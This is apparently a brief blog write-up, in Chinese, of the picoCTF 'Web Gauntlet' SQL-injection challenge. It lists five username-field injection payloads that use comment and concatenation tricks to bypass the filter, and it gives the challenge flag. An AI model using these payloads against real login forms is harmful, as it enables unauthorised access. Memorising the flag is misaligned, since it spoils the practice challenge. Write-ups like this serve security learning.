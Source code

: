 ```yaml
---
layout: post
title:  "picoCTF - Web Gauntlet"
description: 
date:   2023-12-29 10:10:00 +0800
# last_modified_at:
categories: [CTF, picoCTF-Web Exploitation]
author: d13
tags: [ctf, web exploitation, picoctf]
---
```


# Question

[https://play.picoctf.org/practice/challenge/88](https://play.picoctf.org/practice/challenge/88)

# Solution


題目就是在考SQL Injection而已，filter.php那個連結會提示他過濾了那些字。但我很多題都送一樣的sql進去，反正能過關就好，也是因為我會的指令也不多就是了...

以下附上我每題的input，通通都是加在username那一欄，password隨便打：

```shell
1. `admin';--`
2. `admin';0x2d2d`
3. `admin';0x2d2d`
4. `ad'||'min';0x2d2d`
5. `ad'||'min';0x2d2d`
```

# Flag

picoCTF{y0u_m4d3_1t_16f769e719ab9d3e310fd13dc1262ee1}